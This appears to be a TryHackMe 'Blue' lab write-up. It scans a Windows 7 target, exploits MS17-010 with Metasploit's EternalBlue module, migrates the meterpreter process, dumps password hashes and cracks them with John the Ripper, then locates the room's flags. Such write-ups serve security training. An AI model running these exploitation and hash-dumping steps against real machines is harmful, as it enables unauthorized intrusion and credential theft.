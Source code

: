 <h1>TryHackMe:Blue</h1>
<br>
Deploy & hack into a Windows machine, leveraging common misconfigurations issues.

Room : https://tryhackme.com/room/blue


![6489823](https://user-images.githubusercontent.com/92990208/192826798-1f0825ca-5d25-4d9d-8e01-73e96eb7751c.jpg)

> Let’s start with scan the machine

We start with a Nmap scan on the given IP address to show the open ports and get more information about target


![1](https://user-images.githubusercontent.com/92990208/192827303-2024f7fb-4fff-440e-a695-cc730386dfde.png)

After we scanned the ports, We can notice that there are three open ports, and also We can notice that it’s a Windows 7 machine

Now we need to know what is the vulnerabilities are on this machine

And to know that, we will use the following command

**_nmap — script vuln 10.10.165.226_**

![2](https://user-images.githubusercontent.com/92990208/192827488-406dbb6e-1447-4721-ac93-f23d682ab219.png)



![3](https://user-images.githubusercontent.com/92990208/192827692-5c941707-2e2b-4144-805c-8af841158e60.png)



the scan result shows that this machine is vulnerable to (ms17–010) A critical remote code execution vulnerability exists in Microsoft SMBv1.

> **Gain Access**

Now we will go to Metasploit to check out whether there is an exploitation of this vulnerability or not

Use command msfconsole to open metasploit


![4](https://user-images.githubusercontent.com/92990208/192827828-6490de61-f7c4-43b4-bff5-b24c81ff9efc.png)


![5](https://user-images.githubusercontent.com/92990208/192827885-024877e3-5628-414e-ae27-dbc67de315af.png)


After searching, we found the exploitation code and Because the machine is Windows 7. Let’s try “exploit/windows/smb/ms17_010_eternalblue”

write command : use exploit/windows/smb/ms17_010_eternalblue to use the exploit and command : Show options to show the required value



![6](https://user-images.githubusercontent.com/92990208/192828052-082aad16-72bf-4094-9e82-6ce4923c18c1.png)



set RHOSTS <target ip>

set LHOST<machine ip>



![7](https://user-images.githubusercontent.com/92990208/192828122-f78632ca-d6b8-439f-8205-f287f0521a72.png)



Now we are ready to run the exploitation

use command run



![10](https://user-images.githubusercontent.com/92990208/192828214-11ab0163-408e-41aa-b274-96960298f088.png)



Now we are going to check if the exploit has run correctly or not

![11](https://user-images.githubusercontent.com/92990208/192828269-efe1aab9-9f87-478f-b23b-1f53afbd9f80.png)




Press “Ctrl+z” to go back to meterpreter


![12](https://user-images.githubusercontent.com/92990208/192828331-49b9b9fc-1972-4bec-be34-ba37f33ed036.png)




Now we need, to migrate our process, so we use the command “ps” after we will get a list of processes, we can migrate any process with the command “migrate <PID number>”





![13](https://user-images.githubusercontent.com/92990208/192828392-01d07627-1ce7-4c14-b46d-4633befe2b84.png)


![14](https://user-images.githubusercontent.com/92990208/192828435-fa0b8d7b-e0f0-463b-b213-151f03408a7f.png)



Let’s now try to dump the password hashes from victim machine

to dumb the password hashes, use command : hashdumb




![15](https://user-images.githubusercontent.com/92990208/192828493-57bdcf55-3047-4387-a151-ddbb008f689f.png)



Once we have the hashes, we can store them locally into a file and use John the Ripper to crack them

![16](https://user-images.githubusercontent.com/92990208/192828534-a5ea34e3-9d89-4b02-bfa1-18be58873fd6.png)




> **The last step is to find flags!**


After a lot of searching in the system files, we found

**_Flag1 is located in C :\\_**



![17](https://user-images.githubusercontent.com/92990208/192828627-e6f25ec5-1da2-435a-b401-07c0c51b96cc.png)



**_Flag2 is located in “C:\Windows\System32\config”._**


![18](https://user-images.githubusercontent.com/92990208/192828678-9537a4a0-b3fd-450d-bddf-b283b39588c5.png)



**_Flag3 is located in “C:\Users\Jon\Documents”._**



![19](https://user-images.githubusercontent.com/92990208/192828755-1424b754-f79f-489d-8bd5-123abaa02b76.png)




**_We have successfully completed this room_**





